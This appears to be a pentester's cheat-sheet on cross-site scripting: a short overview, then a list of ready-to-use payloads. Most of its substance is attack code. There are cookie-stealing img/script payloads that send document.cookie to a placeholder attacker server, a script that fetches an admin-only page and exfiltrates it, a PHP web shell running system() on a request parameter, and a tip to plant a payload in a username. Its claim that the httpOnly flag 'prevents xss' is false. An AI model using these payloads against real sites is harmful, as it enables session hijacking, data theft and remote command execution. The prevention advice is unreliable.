 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Prevention

If the http header "httpOnly" is set to True, this prevents xss

## Common Payloads

Steal cookies

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	"><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	'><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	<script>document.location='http://<YOUR_SERVER_IP>/?cookie='+document.cookie;</script>

If there is no cookie, e can also try to access pages the only the admin can have access, by doing:

	<script>
	fetch("http://page_that_only_admin_has_access_to")
	.then(response => response.text()) // Convert the response to text
	.then(data => {
		fetch("http://our_server_ip/?data=" + encodeURIComponent(data)); // Exfiltrate data
	})
	.catch(error => console.error("Error fetching the messages:", error));
	</script>

This fetches the page that onyl the admin has access to, converts it to text, uri encodes it, and then sends the data back to us.

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami

## Tips

If the username might be seen by an admin account, try to register a username as a xss payload


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting